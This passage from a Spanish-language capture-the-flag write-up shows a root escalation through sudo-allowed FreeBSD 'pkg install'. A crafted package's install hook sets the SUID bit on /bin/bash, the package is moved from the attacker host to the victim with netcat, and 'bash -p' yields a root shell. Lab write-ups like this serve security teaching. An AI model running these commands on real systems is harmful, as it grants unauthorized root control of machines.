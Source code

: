 ```bash
TF=$(mktemp -d)
echo 'chmod u+s /bin/bash' > $TF/x.sh
fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF

sudo pkg install -y --no-repo-update ./x-1.0.txz
```

En este caso no funcciona porque la maquina victima no tiene **fpm** instalado. Vemos que este comando solo crea un `.txz`. Lo hacemos desde nuestra maquina
de atacante

```bash
gem install fpm
cd /tmp
mkdir privesc
cd privesc

TF="/tmp/privesc"
echo 'chmod u+s /bin/bash' > $TF/x.sh
fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
```

Aqui ya tenemos el `.txz` en nuestra maquina de atacante. Lo transferimos a la maquina victima

1. Desde la maquina de atacante

    ```bash
    nc -nlvp 443 < x-1.0.txz
    ```

1. Desde la maquina victima

    ```bash
    nc 10.10.16.3 443 > x-1.0.txz
    ```

Ya podemos lanzar la instalacion.

```bash
sudo pkg install -y --no-repo-update ./x-1.0.txz
bash -p
whoami
#Output
root
```

Ya estamos root y podemos leer la flag.
